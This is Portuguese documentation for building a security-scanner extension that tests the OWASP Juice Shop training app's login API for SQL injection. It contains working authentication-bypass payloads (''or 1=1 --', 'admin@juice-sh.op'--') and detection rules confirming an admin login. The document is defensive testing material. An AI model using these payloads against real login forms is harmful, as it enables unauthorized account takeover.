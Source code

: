 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


#   Criação de Extensão de Modificação

A extensão descrita neste documento irá modificar uma requisição básica de entrada para injetar algum payload. Esses payloads poderiam levar à exploração da vulnerabilidade SQLi no formulário de login do aplicativo alvo [“OWASP Juice Shop”][link-juice-shop].
  
##  Preparativos

É altamente recomendado seguir estas etapas antes de criar uma extensão FAST:
1.  [Investigue o comportamento do aplicativo alvo][link-app-examination] para o qual você está criando a extensão.
2.  [Leia os princípios de construção de pontos para uma extensão][link-points].


##  Construção da Extensão

Crie um arquivo que descreve a extensão (por exemplo, `mod-extension.yaml`) e preencha-o com as seções requeridas:

1.  [**A seção `meta-info`**][link-meta-info].

   Prepare a descrição da vulnerabilidade que a extensão tentará detectar.
    * cabeçalho da vulnerabilidade: `OWASP Juice Shop SQLi (extensão mod)`
    * descrição da vulnerabilidade: `Demonstração de SQLi no OWASP Juice Shop (Login Admin)`
    * tipo de vulnerabilidade: SQL injection
    * nível de ameaça da vulnerabilidade: alto
    
    A  seção `meta-info` correspondente deve ser assim:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (extensão mod)'
      - description: 'Demonstração de SQLi no OWASP Juice Shop (Login Admin)'
    ```
    
2.  **A seção `collect`, a [Fase Collect][doc-collect-phase]**.
    
    O método REST API `POST /rest/user/login` é chamado ao tentar fazer login.
    
    Não há necessidade de criar solicitações de teste para cada uma das solicitações baseline de login que foram enviadas para a API, pois a detecção de vulnerabilidades será realizada da mesma forma para cada pedaço de dados passado na solicitação POST.
    
    Configure a extensão de maneira que ela execute uma vez quando a API receber a solicitação de login. Para fazer isso, adicione a fase Collect com a condição de unicidade à extensão.

    A solicitação `/rest/user/login` para a API fazer o login inclui:

    1.  a primeira parte do caminho com o valor `rest`,
    2.  a segunda parte do caminho com o valor `user`, e 
    3.  o método de ação `login`
    
    Os pontos correspondentes que se referem a esses valores são os seguintes:

    1.  `PATH_0_value` para a primeira parte do caminho,
    2.  `PATH_1_value` para a segunda parte do caminho,
    3.  `ACTION_NAME_value` para o método de ação `login`
    
    Se você acrescentar a condição de que a combinação destes três elementos deve ser única, então a extensão só será executada para a primeira solicitação baseline `/rest/user/login` para a API (tal solicitação será tratada como única, e todas as solicitações subsequentes para a API para o login não serão únicas). 
    
    Adicione a seção `collect` correspondente ao arquivo YAML da extensão. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **A seção `match`, a [Fase Match][doc-match-phase]**.
    
    É necessário verificar se as solicitações baseline de entrada são realmente as solicitações para a API fazer o login, pois a extensão que estamos criando explorará as vulnerabilidades que o formulário de login contém.
    
    Configure a extensão para que ela só execute se uma solicitação baseline estiver direcionada para a seguinte URI: `/rest/user/login`. Adicione a fase Match que verifica se a solicitação recebida contém os elementos requeridos. Isso pode ser feito usando a seguinte seção `match`:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **A seção `modify`, a [Fase Modify][doc-modify-phase]**.
    
    Vamos supor que seja necessário modificar a solicitação baseline para alcançar os seguintes objetivos:
    * Limpar o valor do cabeçalho HTTP `Accept-Language` (este valor não é necessário para que a vulnerabilidade seja detectada).
    * Substituir os valores reais dos parâmetros `email` e `password` pelos valores neutros `dummy`.
    
    Adicione à extensão a seguinte seção `modify` que altera a solicitação para atender aos objetivos descritos acima:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "Sintaxe da descrição dos elementos da solicitação"
        Como os dados da solicitação que estão contidos no formato JSON são armazenados em pares `<chave: valor>`, o ponto que se refere ao valor do elemento `email` se parecerá com o mostrado acima. O ponto que se refere ao valor do elemento `password` tem uma estrutura similar.
        
        Para ver informações detalhadas sobre a construção dos pontos, prossiga para este [link][link-points].
 
5.  **A seção `generate`, a [Fase Generate][doc-generate-phase]**.

    É sabido que existem dois payloads que devem substituir o valor do parâmetro `email` na solicitação baseline para explorar a vulnerabilidade de injeção de SQL no aplicativo alvo:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "Inserindo o payload na solicitação modificada"
        O payload será inserido na solicitação modificada anteriormente, porque a extensão contém a seção `modify`. Assim, após inserir o primeiro payload no campo `email`, os dados da solicitação de teste devem ser assim:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        Como qualquer senha pode ser usada para fazer login com sucesso devido aos payloads escolhidos, não é necessário inserir o payload no campo de senha, que terá um valor `dummy` após a fase Modify ser aplicada.
    
        Adicione a seção `generate` que criará as solicitações de teste que atendem aos requisitos discutidos acima.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **A seção `detect`, a [Fase Detect][doc-detect-phase]**.
    
    As seguintes condições indicam que a autenticação do usuário com direitos de administrador foi bem-sucedida:
    * A presença do parâmetro identificador do carrinho de compras com o valor `1` no corpo da resposta. O parâmetro está no formato JSON e deve ser da seguinte maneira:
    
        ```
        "bid":1
        ```
    
    * A presença do parâmetro email do usuário com o valor `admin@juice-sh.op` no corpo da resposta. O parâmetro está no formato JSON e deve ser da seguinte maneira:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Adicione a seção `detect` que verifica se o ataque foi bem-sucedido de acordo com as condições descritas acima.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escapando símbolos especiais"
    Lembre-se de escapar os símbolos especiais nas strings.

##  Arquivo de Extensão

Agora o arquivo `mod-extension.yaml` contém o conjunto completo das seções requeridas para a extensão operar. A listagem do conteúdo do arquivo está abaixo:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (extensão mod)'
      - description: 'Demonstração de SQLi no OWASP Juice Shop (Login Admin)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Utilizando a Extensão

Para obter informações detalhadas sobre como usar a expressão criada, leia [este documento][link-using-extension].